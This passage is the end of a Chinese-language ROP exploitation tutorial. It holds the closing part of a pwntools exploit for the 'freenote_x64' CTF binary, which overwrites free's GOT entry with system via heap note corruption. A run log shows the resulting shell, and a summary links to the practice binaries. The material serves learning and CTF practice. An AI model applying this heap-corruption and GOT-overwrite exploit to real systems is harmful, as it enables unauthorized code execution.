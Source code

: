     new_note(payload)   
    
    delete_note(1)  
    
    free_got = 0x602018 
    
    payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
    payload2 += "A"* (notelen*3-len(payload2))  
    
    edit_note(0, payload2)
    edit_note(0, p64(system_sh_addr))   
    
    delete_note(1)  
    
    p.interactive()
    

执行exp的结果如下：

    
    
    $ python exp9.py 
    [+] Started program './freenote_x64'
    b8a75eb2b57f
    0x7fb5b25ea7b8
    system_sh_addr: 0x7fb5b2278310
    binsh_addr: 0x7fb5b23abfc7
    20684b02
    0x24b6820
    [*] Switching to interactive mode
    $ whoami
    mzheng
    

# 0x04 总结

* * *

除了64位的freenote，blue-lotus还弄了一个32位版的freenote给大家练习。这些binary和exp都可以在我的github上下载到：

<https://github.com/zhengmin1989/ROP_STEP_BY_STEP>

另外，下篇我会带来arm上rop的利用，敬请期待。

# 0x05 参考资料

* * *

  1. <http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html>
  2. 掘金ctf

